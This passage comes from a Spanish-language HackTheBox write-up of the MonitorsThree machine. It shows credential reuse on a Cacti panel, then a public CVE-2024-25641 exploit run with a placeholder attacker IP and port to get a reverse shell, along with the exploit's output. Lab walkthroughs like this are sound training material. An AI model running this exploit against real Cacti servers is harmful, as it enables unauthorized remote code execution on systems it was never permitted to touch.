 Probamos a reutilizar las credenciales sobre el panel de *Cacti* con éxito, así que, continuamos por esta vía con la intención de explotar el RCE y conseguir una conexión interactiva con la máquina remota:
![](../assets/img/monitorsthree-hackthebox-writeup/9.png)

Utilizamos el exploit [https://github.com/Safarchand/CVE-2024-25641](https://github.com/Safarchand/CVE-2024-25641), éste require de tener una terminal en escucha para recibir la conexión de la máquina víctima.

Nos ponemos en escucha y ejecutamos el exploit:
```python
python3 exploit.py -u admin -p ************ -i <NUESTRA_IP> -l <PUERTO> -url http://cacti.monitorsthree.htb
Cacti Instance Found! 
Login Successful! 
Package Import finalized 
Triggering shell..... make sure you've started the listener 
```
